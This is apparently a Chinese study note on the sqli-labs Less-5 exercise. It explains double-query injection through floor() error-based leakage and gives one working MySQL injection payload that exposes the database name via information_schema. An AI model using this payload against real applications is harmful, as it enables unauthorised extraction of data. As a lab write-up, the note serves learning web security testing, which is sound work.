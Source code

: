 ![](file/image_gcMfxIemlY.png)

### Less-5：GET - Double Query - single Quotes - string

**注入类型**

双查询注入→[floor() 报错注入](../学习/floor()%20报错注入/floor()%20报错注入.md 报错注入/floor() 报错注入.md> "floor() 报错注入")

**闭合方式**

id='\$id'

```sql
and (select 1 from (select count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2)))a) --+
```

![](file/image_KUORHVI4Jc.png)